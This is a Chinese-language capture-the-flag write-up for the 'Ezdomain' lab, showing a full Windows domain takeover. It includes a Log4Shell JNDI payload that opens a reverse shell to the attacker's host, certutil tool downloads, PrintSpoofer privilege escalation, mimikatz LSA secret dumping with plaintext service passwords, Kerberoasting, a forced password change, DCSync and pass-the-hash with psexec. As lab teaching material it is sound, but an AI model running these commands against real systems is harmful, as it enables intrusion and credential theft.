







# Ezdomain

## 信息收集

入口 IP 为 `192.168.162.10`。

使用 `nmap` 扫描（该项扫描大概需要两分钟）：

```bash
nmap -Pn -n -p- --min-rate 1000 -T4 -A 192.168.162.10
```

```text
Starting Nmap 7.98 ( https://nmap.org )
Nmap scan report for 192.168.162.10
Host is up (0.00063s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
25565/tcp open  minecraft     Minecraft 1.12.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 00:0C:29:F2:D2:F4 (VMware)
Device type: general purpose
Running: Microsoft Windows 2019
OS CPE: cpe:/o:microsoft:windows_server_2019
OS details: Microsoft Windows Server 2019
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: WEB01, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:f2:d2:f4 (VMware)
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2026-05-09T16:35:37
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.63 ms 192.168.162.10

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.05 seconds
```

漏洞点在 `25565/tcp` 开放的 `Minecraft 1.12.2` 服务上。

通过搜索 `minecraft server exploit`，可以确认该服务存在著名的 `Log4Shell`（`CVE-2021-44228`）漏洞。

可以直接使用公开的现成脚本 [log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)。

查看其中的 `poc.py` 后可以发现，由于靶机是 `Windows`，需要将 `Exploit.java` 中的 `cmd` 从 `/bin/sh` 改为 `powershell.exe`。

阅读其中的 `README.md` 查看用法。这里使用本机 `Windows`（`192.168.162.1`）接收反弹 Shell：

```bash
python poc.py --userip 192.168.162.1 --lport 4444
```

同时新开一个命令行，使用 `ncat` 侦听 `4444` 端口：

```bash
ncat -lvnp 4444
```

使用 `Minecraft 1.12.2` 客户端连接服务器。

> [!TIP]
>
> 如果没有 `Minecraft` 客户端，可以使用 [PCL2 启动器](https://ltcat.lanzouv.com/iQsvV3oqvyla)。



按 `T` 键，在聊天框输入 `poc.py` 给出的 `payload`：

```text
${jndi:ldap://192.168.162.1:1389/a}
```



即可拿到反弹 Shell。



```text
PS C:\Users\svc_minecraft\server> type C:\Users\svc_minecraft\Desktop\flag01.txt
minil{ee11cbb19052e40b07aac0ca060c23ee}
```

## 稳定 Shell

可以使用 [Stowaway](https://github.com/ph4ntonn/Stowaway) 代理工具建立一个更稳定、功能更强的 Shell。

传到靶机上的方法是：本机启动一个 Web 服务提供下载，再在上面拿到的 Shell 中使用 `certutil.exe` 下载。

本机启动 Web 服务：

```cmd
python -m http.server 8081
```

在拿到的 Shell 上下载：

```powershell
certutil.exe -urlcache -split -f http://ip:port/file
```

## 本地提权

先查看 `svc_minecraft` 的用户权限：

```text
C:\Users\svc_minecraft\server>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```

根据 `whoami /priv` 的输出可知，该用户具有 `SeImpersonatePrivilege` 特权，因此可以使用 [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) 提权。

```powershell
C:\Users\svc_minecraft\server>PrintSpoofer64.exe -c "cmd" -i
PrintSpoofer64.exe -c "cmd" -i
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation????????

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

可以看到当前权限已经是 `NT AUTHORITY\SYSTEM`。

使用 [mimikatz](https://github.com/ParrotSec/mimikatz) 导出内存中的凭据：

```text
C:\>mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" exit
  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

584     {0;000003e7} 1 D 40198          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000003e7} 0 D 3931017     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 * Thread Token  : {0;000003e7} 1 D 3965070     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz(commandline) # lsadump::secrets
Domain : WEB01
SysKey : bbd7fb94526082836b1d680f1dbfa695

Local name : WEB01 ( S-1-5-21-3685871773-2237776118-3313444928 )
Domain name : MINIL ( S-1-5-21-1739706591-2188806708-483763778 )
Domain FQDN : minil.ctf

Policy subsystem is : 1.18
LSA Key(s) : 1, default {e5f02a53-a5c4-7953-317f-1aeb025bbcbc}
  [00] {e5f02a53-a5c4-7953-317f-1aeb025bbcbc} a45f5ff14ef2c326ed5a032992e8a5dcf54bcdb97b8a705193f6396dedd3c251

Secret  : $MACHINE.ACC
cur/text: i9[K,:yu!q;_g6-BkrY bh]m?leh0j[v@[DI?e9,:esU]ryi1MbO!V^r,6>\ZK<o\I?#rq=*y ;BuOmKrN_QLY7EN>v'm(hMo/nLi><?5fnG9`5Bi3x"1+/,
    NTLM:7938d736300c6348f08241b6a7769030
    SHA1:9bf5896cd72ee447a7fb8f4a35a06edd62ca46d7
old/text: i9[K,:yu!q;_g6-BkrY bh]m?leh0j[v@[DI?e9,:esU]ryi1MbO!V^r,6>\ZK<o\I?#rq=*y ;BuOmKrN_QLY7EN>v'm(hMo/nLi><?5fnG9`5Bi3x"1+/,
    NTLM:7938d736300c6348f08241b6a7769030
    SHA1:9bf5896cd72ee447a7fb8f4a35a06edd62ca46d7

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 bf 54 20 df b8 ea f1 eb 71 7a ad 56 de 51 fc 73 d8 b2 e0 93 67 8e 9c 7c e4 bc 1d 9e 90 e3 42 5f 0c 72 29 95 bc db d1 d1
    full: bf5420dfb8eaf1eb717aad56de51fc73d8b2e093678e9c7ce4bc1d9e90e3425f0c722995bcdbd1d1
    m/u : bf5420dfb8eaf1eb717aad56de51fc73d8b2e093 / 678e9c7ce4bc1d9e90e3425f0c722995bcdbd1d1
old/hex : 01 00 00 00 26 2d d9 af 34 06 65 2e 68 eb bc 7a 30 20 ce 79 39 db 23 70 d2 7f 44 fb 35 e3 05 2b a5 02 03 c1 36 59 e7 20 26 54 c9 d6
    full: 262dd9af3406652e68ebbc7a3020ce7939db2370d27f44fb35e3052ba50203c13659e7202654c9d6
    m/u : 262dd9af3406652e68ebbc7a3020ce7939db2370 / d27f44fb35e3052ba50203c13659e7202654c9d6

Secret  : NL$KM
cur/hex : fb 27 cb 8b f3 db 21 e5 d3 e9 c6 35 2c 9f 62 13 49 a3 a4 18 41 db 45 7f b1 e1 cc a2 d4 97 ae 86 e8 c1 88 99 4f a0 fa be 18 04 02 63 8a fa b8 8a c2 d3 f1 0a bf 54 81 0b 1c c8 82 d7 85 92 6c bf
old/hex : fb 27 cb 8b f3 db 21 e5 d3 e9 c6 35 2c 9f 62 13 49 a3 a4 18 41 db 45 7f b1 e1 cc a2 d4 97 ae 86 e8 c1 88 99 4f a0 fa be 18 04 02 63 8a fa b8 8a c2 d3 f1 0a bf 54 81 0b 1c c8 82 d7 85 92 6c bf

Secret  : _SC_MinecraftServer / service 'MinecraftServer' with username : .\svc_minecraft
cur/text: 6c0D1cc3F594e806

Secret  : _SC_MSSQL$MSSQL / service 'MSSQL$MSSQL' with username : MINIL\sql_backup
cur/text: 7cd4A7b@3F2dE0eb

Secret  : _SC_SQLTELEMETRY$MSSQL / service 'SQLTELEMETRY$MSSQL' with username : NT Service\SQLTELEMETRY$MSSQL

mimikatz(commandline) # exit
Bye!
```

即可拿到 `LSA Secret`。

## 域内横向

值得关注的账号是 `MINIL\sql_backup:7cd4A7b@3F2dE0eb`。这是一个域用户，可以使用 `BloodHound` 分析域环境。



查看所有设置 `SPN` 的用户：



然后使用 `sql_backup@MINIL.CTF` 请求 `SVC_DEPLOY@MINIL.CTF` 的 `TGS`：

```text
C:\Users\sql_backup>Rubeus.exe kerberoast /spn:"HTTP/DEPLOY" /format:john /nowrap /outfile:hash

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.


[*] Target SPN             : HTTP/DEPLOY
[*] Hash written to C:\Users\sql_backup\hash

[*] Roasted hashes written to : C:\Users\sql_backup\hash
```

使用 `john` 破解该 `hash` 文件：

```text
┌──(kali㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=krb5tgs
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Minilab#1        (?)     
1g 0:00:00:04 DONE (2026-05-10 05:27) 0.2352g/s 2546Kp/s 2546Kc/s 2546KC/s Minute1..Millie@53
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

拿到 `SVC_DEPLOY@MINIL.CTF` 的密码 `Minilab#1`。



`SVC_DEPLOY@MINIL.CTF` 对 `BACKUP_SVC@MINIL.CTF` 具有 `ForceChangePassword` 权限：

```powershell
PS C:\Users\svc_deploy> $user = [ADSI]"LDAP://CN=BACKUP_SVC,CN=Users,DC=MINIL,DC=CTF"
>> $user.SetPassword("HDdss@minil.ctf")
```



## 域控接管

`BACKUP_SVC@MINIL.CTF` 对域 `MINIL.CTF` 具有 `DCSync` 权限，可以直接拿到域控：

```text
C:\Users\backup_svc>C:\Users\backup_svc\Desktop\secretsdump.exe -dc-ip 10.9.21.53 -just-dc-user Administrator "minil.ctf/backup_svc@10.9.21.53"
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7bd14b429e24757beda7c400ad780f0f:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:3bcbc2b65a83757ea8dc49a0d3bc1a40b632f21356c8b155cbe3dd713cc4e07a
Administrator:aes128-cts-hmac-sha1-96:373f0f246e1577d1bfae3ae1029c23d4
Administrator:des-cbc-md5:29b6c2a7a87ad0bf
[*] Cleaning up...

C:\Users\backup_svc>
```

传递 `hash`：

```text
C:\Users\backup_svc>C:\Users\backup_svc\Desktop\psexec.exe minil.ctf/Administrator@10.9.21.53 cmd -hashes aad3b435b51404eeaad3b435b51404ee:7bd14b429e24757beda7c400ad780f0f
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.9.21.53.....
[*] Found writable share ADMIN$
[*] Uploading file RRnmqkDc.exe
[*] Opening SVCManager on 10.9.21.53.....
[*] Creating service yLGG on 10.9.21.53.....
[*] Starting service yLGG.....
[!] Press help for extra shell commands


C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::5df3:3f5d:5609:a0da%5
   IPv4 Address. . . . . . . . . . . : 10.9.21.53
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.9.21.1

C:\Windows\system32>type C:\Users\Administrator\Desktop\flag02.txt
minil{63a9f0ea7bb98050796b649e85481845}
```
